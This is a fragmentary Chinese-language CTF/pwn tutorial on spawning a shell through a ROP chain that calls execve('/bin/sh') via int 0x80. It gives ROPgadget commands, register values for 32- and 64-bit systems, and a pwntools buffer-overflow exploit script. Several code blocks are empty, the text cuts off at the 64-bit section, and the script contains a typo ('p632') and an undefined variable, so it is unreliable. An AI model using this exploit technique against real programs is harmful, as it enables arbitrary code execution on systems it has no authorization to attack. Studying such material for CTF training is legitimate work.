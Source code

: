 ### 32位

```

```

### 64位

```

```



## 情况三

当没有system函数，也没有"/bin/sh"，我们就需要自己使用ROPgadget构造一个后面函数所以操作系统的内核函数，想要调用需要通过寄存器传入代号，当要执行int 0x80的这个汇编代码时，我们要确保，寄存器已经传入了对应的参数

```shell
#安装ROPgadget
python -m pip install ROPgadget
#在程序的.text段中寻找，可以组成payload的函数
ROPgadget --binary pwn --only "pop|ret"
#构造execve("/bin/sh",0,0),寄存器必须是以下值，才能执行int 0x80

eax=0xb ebx='/bin/sh' ecx=0 edx=0	#32位设置
rax=0x3b rdi='/bin/sh' rdx=0 rsi=0	#64设置
#写入"/bin/sh"的地方有

```

### 32位

32位程序是利用int 80来进行系统调用read函数，也可以直接使用已有的read函数，但是得需要pop_ret的地址满足条件才行

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#p = remote('node.buuoj.cn',8888)
p = process('./pwn')
elf = ELF('./pwn')
pop_eax = 0x12345678
pop_edx_ecx_ebx = 0x12345678
int_80 = 0x12345678
#bin_sh = 0x12345678 当ELF中存在，可直接调用

payload = flat(cyclic(60),p32(pop_eax),p32(0xb),p32(pop_edx_ecx_ebx),p632(0),p32(0),p32(sh_addr),p32(int_80))
p.sendline(payload)
p.interactive()
```

### 64位
